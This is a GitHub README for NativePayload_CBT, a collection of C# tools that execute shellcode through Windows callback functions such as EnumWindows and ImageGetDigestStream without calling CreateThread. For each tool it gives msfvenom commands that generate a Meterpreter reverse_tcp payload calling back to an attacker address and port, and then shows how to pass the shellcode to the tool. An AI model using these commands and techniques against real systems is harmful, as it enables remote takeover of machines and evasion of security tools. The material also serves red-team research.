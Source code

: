 # NativePayload_CBT
NativePayload_CallBackTechniques C# Codes (Code Execution via CallBack Functions, without CreateThread Native API)
------------
Note: These C# Codes Tested by .NetFramework 3.5 or 4.0 only ;) & some of Codes are ready but i will Publish almost all of them from S4R1N C++ repo (soon)

Note: These Useful Techniques made by Security Researcher @S4R1N. 

Special Thanks to S4R1N for Original C++ Source ==> https://github.com/S4R1N/AlternativeShellcodeExec
--------------------------------------------

 NativePayload_ImageGetDigestStream.cs (Callback Functions Technique via ImageGetDigestStream Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_ImageGetDigestStream.exe  [payload...]
    example: NativePayload_ImageGetDigestStream.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_ImageGetDigestStream.png)

 -----------------------------------------------------------    
  NativePayload_EnumWindows.cs (Callback Functions Technique via EnumWindows Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumWindows.exe  [payload...]
    example: NativePayload_EnumWindows.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumWindows.png)

 --------------------------------------------    
  NativePayload_EnumWindowStationsW.cs (Callback Functions Technique via EnumWindowStationsW Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumWindowStationsW.exe  [payload...]
    example: NativePayload_EnumWindowStationsW.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumWindowStationW.png)
   
   --------------------------------------------    
  NativePayload_EnumResourceTypesW.cs (Callback Functions Technique via EnumResourceTypesW Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumResourceTypesW.exe  [payload...]
    example: NativePayload_EnumResourceTypesW.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumResourceTypesW.png)

 --------------------------------------------    
